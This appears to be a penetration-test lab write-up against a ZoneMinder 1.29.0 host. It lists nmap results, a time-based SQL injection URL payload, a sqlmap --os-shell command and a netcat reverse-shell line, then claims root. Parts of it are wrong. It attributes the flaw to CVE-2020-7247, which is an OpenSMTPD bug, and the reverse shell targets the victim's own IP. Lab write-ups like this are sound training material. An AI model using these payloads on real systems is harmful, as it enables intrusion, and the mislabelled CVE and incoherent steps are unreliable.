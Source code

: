 # Box: 192.168.236.52

---

## System Info
- **OS/Tech:** Ubuntu Linux, PHP  
- **Application:** ZoneMinder Console v1.29.0 

---

##  Credentials
- **User:** _(none)_  
- **Password:** _(none)_

---

## 🔍 Service Enumeration (`nmap -sC -sV`)
| Port    | State | Service  | Version                             |
| ------- | ----- | -------- | ----------------------------------- |
| **21**  | open  | ftp      | vsftpd 3.0.3                        |
| **22**  | open  | ssh      | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8     |
| **80**  | open  | http     | Apache 2.4.18 (Ubuntu) — ZoneMinder |
| **3305**| open  | http     | Apache 2.4.18 (Ubuntu)              |
| **8080**| open  | http     | Apache 2.4.18 (Ubuntu) — Tomcat UI  |

---

## 🚩 Initial Findings
- **FTP (21):** anonymous disabled, no user list  
- **SSH (22):** no valid creds yet  
- **HTTP (80):** ZoneMinder web console; source code not directly exposed  
- **HTTP (3305):** generic Apache test page  
- **HTTP (8080):** Tomcat management UI (no creds)  

---

## 🐘 Exploitation: SQL Injection in ZoneMinder (CVE‑2020‑7247)

1. **Vuln discovered** in `zm/index.php?view=request…&limit=…`  
2. **Time‑based payload** to confirm injection:
   ```text
   http://192.168.236.52/zm/index.php?
     view=request
     &request=log
     &task=query
     &limit=100;(SELECT * FROM (SELECT(SLEEP(5)))OQkj)#
     &minTime=1466674406.084434
   ```
Gaining an OS Shell via SQLmap + UDF
sqlmap \
  -u "http://192.168.236.52/zm/index.php?view=request" \
  --data="request=log&task=query&limit=100&minTime=5" \
  --dbms=mysql \
  --technique=T \
  --os-shell

Get a reverse shell by uploading nc into /tmp 
/tmp/nc -e /bin/bash 192.168.236.52 4444
ROOT !!!
	






